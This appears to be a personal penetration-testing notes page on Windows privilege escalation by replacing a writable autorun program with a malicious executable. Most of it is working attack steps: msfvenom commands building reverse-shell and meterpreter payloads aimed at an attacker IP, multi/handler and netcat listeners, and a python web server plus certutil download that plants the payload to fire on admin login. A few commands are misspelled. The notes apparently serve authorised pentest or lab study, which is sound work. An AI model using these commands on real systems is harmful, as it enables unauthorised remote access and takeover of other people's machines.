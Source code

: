 -- -
[[Dark Arts/Privesc/Windows/Enumeration/Autoruns|Enum]]
General workflow:
1. Identify autoruns
2. Identify if you have `write` privs on autorun
3. Identify if autorun is run on admin login
4. Generate payload
5. name it the same as autorun program
6. replace autorun with malware payload
7. setup listener
8. wait for admin to log in and trigger autorun
If you are on this page, you should have done steps 1-3.
#### Generate payload
Attack box: 
```bash
msfvenom -p windows/meterprter/reverse_tcp lhost=<attack ip> lport=<port> -f exe -o <autorun program name>.exe

msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.14 lport=9001 -f exe -o program.exe
msfvenom -p windows/x64/reverse_tcp lhost=10.10.10.14 lport=9001 -f exe -o program.exe
```
#### setup listener
```bash
# for meterpreter payload
msfconsole
use multi/handler
set lhost 10.10.10.14
set lport 9001
run

# for regular reverse shell
nc -nvlp 9001
```
#### replace autorun w/ malware
Also see [[Dark Arts/File Transfer/Windows|file transfer]]
```powershell
# attackbox, navigate to payload dir
# setup server
sudo python -m http.server 80

# you can then open IE on target, input your attack ip to connect to it, click on file, save as, then save to location of autorun file.

# otherwise:
certutil -urlcache http://<attack ip>/<filepath> <path to autorun file>
certuitil -urlcache http://10.10.10.14/program.exe "C:\Program Files\Autorun Program\program.exe"
```
Now just wait for admin/other user to log in and it should give you a shell. 